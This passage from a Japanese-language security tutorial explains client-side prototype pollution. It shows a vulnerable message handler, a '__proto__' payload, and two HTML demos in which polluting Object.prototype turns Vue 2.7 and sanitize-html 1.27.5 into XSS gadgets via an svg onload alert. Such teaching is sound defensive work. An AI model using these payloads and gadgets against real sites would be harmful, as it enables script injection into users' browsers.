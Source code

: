 前回の記事の最後に提示したクイズも脆弱な領域です。

```js
onmessage = function (event) {
  const { x, y, color } = event.data;
  // 例えば、screen[10][5] = 'red'
  screen[y][x] = color;
};
```

攻撃者は `{y: '__proto__', x: 'test', color: '123'}` を渡すことができ、その結果 `screen.__proto__.test = '123'` となり、`Object.prototype.test` を汚染します。したがって、ユーザーから渡される値については、検証を実行することが非常に重要です。

プロトタイプ汚染の問題が発生する可能性がある場所がわかったところで、プロトタイプ上のプロパティを汚染するだけでは十分ではありません。影響を受ける可能性のある領域、つまりプロパティが汚染された後に動作が変化する場所を特定する必要があります。これにより、攻撃を実行できます。

## プロトタイプ汚染スクリプトガジェット

これらの「プロトタイプを汚染すれば悪用できるコードスニペット」はスクリプトガジェットと呼ばれます。これらのガジェットを収集することに特化したGitHubリポジトリがあります：[Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)。これらのガジェットの中には想像もつかないものがあるかもしれません。デモンストレーションしましょう。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <script src="https://unpkg.com/vue@2.7.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="app">{{ message }}</div>
    <script>
      // テンプレートを汚染します
      Object.prototype.template = "<svg onload=alert(1)></svg>";
      var app = new Vue({
        el: "#app",
        data: {
          message: "Hello Vue!",
        },
      });
    </script>
  </body>
</html>
```

一見無害なVueのハローワールドコードですが、`Object.prototype.template` を汚染した後、任意のコードを注入できるXSS脆弱性になります。

またはこのように：

```html
<!DOCTYPE html>

<html lang="en">
  <head>
    <meta charset="utf-8" />
    <script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
  </head>
  <body>
    <script>
      Object.prototype.innerText = "<svg onload=alert(1)></svg>";
      document.write(sanitizeHtml("<div>hello</div>"));
    </script>
  </body>
</html>
```
